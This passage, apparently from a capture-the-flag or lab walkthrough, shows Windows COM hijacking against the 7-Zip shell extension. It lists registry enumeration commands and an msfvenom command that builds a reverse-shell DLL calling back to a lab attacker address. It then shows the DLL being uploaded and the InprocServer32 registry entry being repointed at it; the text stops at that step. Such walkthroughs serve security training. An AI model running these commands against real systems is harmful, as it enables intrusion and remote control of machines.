 The registry enumeration revealed the presence of 7-Zip and Windows built-in compression tools:

```cmd
# Search for 7-Zip related CLSIDs
reg query "HKLM\SOFTWARE\Classes\CLSID" /s /f "7-zip" /t REG_SZ

# Results showed:
# HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}
#     (Default)    REG_SZ    7-Zip Shell Extension

# Search for other zip-related CLSIDs
reg query "HKLM\SOFTWARE\Classes\CLSID" /s /f "zip" /t REG_SZ
```

This revealed multiple COM objects related to compression:
- **{23170F69-40C1-278A-1000-000100020000}**: 7-Zip Shell Extension
- **{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}**: Compressed (zipped) Folder SendTo Target
- **{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}**: Compressed (zipped) Folder Context Menu
- **{BD472F60-27FA-11cf-B8B4-444553540000}**: Compressed (zipped) Folder Right Drag Handler

#### Step 3: Analyze Target COM Object

The 7-Zip COM object was selected as the primary target due to its widespread usage:

```cmd
reg query "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"

# Output:
# HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
#     (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll
#     ThreadingModel    REG_SZ    Apartment
```

This confirmed:
- The COM object points to `C:\Program Files\7-Zip\7-zip.dll`
- It uses the Apartment threading model
- The registry key is accessible for modification

#### Step 4: Execute COM Hijacking Attack

The connection between the PDF hint and the attack became clear - ee.reed's Support Group membership provided the necessary registry permissions to modify HKLM COM entries.

1. **Create malicious DLL**:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.255 LPORT=4445 -f dll -o tshell.dll
```

2. **Upload and position the DLL**:
```bash
# From bb.morgan's evil-winrm session
mkdir C:\test
cd C:\test
upload tshell.dll
```

3. **Hijack the COM object registry entry**:
```cmd
# From ee.reed's shell (Support Group member with registry access)
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\test\tshell.dll" /f

# Output: The operation completed successfully.
```
